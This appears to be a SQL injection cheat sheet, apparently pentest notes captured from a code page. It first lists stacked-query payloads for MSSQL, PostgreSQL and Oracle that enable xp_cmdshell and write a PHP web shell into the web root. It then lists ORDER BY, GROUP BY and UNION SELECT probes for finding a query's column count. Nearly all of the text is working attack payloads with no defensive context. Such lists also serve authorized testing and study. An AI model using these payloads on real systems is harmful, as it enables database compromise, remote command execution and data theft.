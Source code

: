 ```
######
# MS #
######
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --//
'; EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ^> > C:\inetpub\wwwroot\shell.php'; --//
```

```
#####
# P #
#####
'; COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php'; --//
```

```
#####
# O #
#####
'; BEGIN dbms_java.runjava('oracle/aurora/util/Wrapper', 'echo', '<?php system($_GET["cmd"]); ?> > /u01/app/oracle/product/11.2.0/xe/app/oracle/shell.php'); END; --//
```


# ***Union Payloads***
***If errors show and no LHF, find # of columns (the types must also be the same across columns)***
## 1 find valid number of columns
```
#####################
# 1 ORDER BY method #
#####################
' ORDER BY 1 --//
' ORDER BY 2 --//
' ORDER BY 3 --//
' ORDER BY 4 --// # If this ERRORS it means Query is only using 3 columns
' ORDER BY ... --//

' ORDER BY 1,2,3,4,5,6,7,8,...
```

```
#####################
# 2 GROUP BY method #
#####################
' GROUP BY 1,2,3,4,5,6,7,8,... --//
```

```
#########################
# 3 UNION SELECT method #
#########################
1' UNION SELECT @ --//      # will error; The used SELECT statements have a different number of columns
1' UNION SELECT @,@ --//    # will error; The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@ --//  # NO ERROR;here means query uses 3 column
```
